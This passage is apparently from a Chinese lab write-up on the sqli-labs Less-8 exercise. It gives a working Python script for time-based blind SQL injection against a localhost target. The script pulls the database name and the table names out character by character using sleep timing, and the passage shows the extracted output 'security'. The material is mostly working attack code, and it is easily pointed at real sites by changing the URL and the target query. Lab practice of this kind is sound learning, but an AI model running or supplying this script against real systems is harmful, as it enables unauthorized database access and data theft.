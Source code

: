 ```python
                end = 1
    if end:
        break
    res += chr(l)
    print(res)
```

> s
> se
> sec
> secu
> secur
> securi
> securit
> security

默认是爆databse()，修改`target`参数可以爆其他

```python
import time
import requests


def blind_inject(url, loc, mid, comp='>', target='database()'):
    params = {
        'id': f"1' and if(ascii(substr({target},{loc},1)){comp}{mid}, sleep(0.05),0); -- ",
    }
    time_start = time.time()
    req = requests.get(url=url, params=params)
    time_end = time.time()
    if time_end - time_start > 0.03:
        return 1
    else:
        return 0


url = "http://localhost/Less-8/"
res = ""
end = 0
for i in range(1, 1000):
    l = 32
    r = 126
    while l < r:
        mid = (l + r) // 2
        if blind_inject(
                url,
                i,
                mid,
                target="(select group_concat(table_name) from information_schema.tables where table_schema='security')"
        ):
            l = mid + 1
        else:
            r = mid

        # check end
        if l >= r:
            target = "(select group_concat(table_name) from information_schema.tables where table_schema='security')"
            if not blind_inject(url, i, l, '=', target=target):
                end = 1
    if end:
        break
    res += chr(l)
```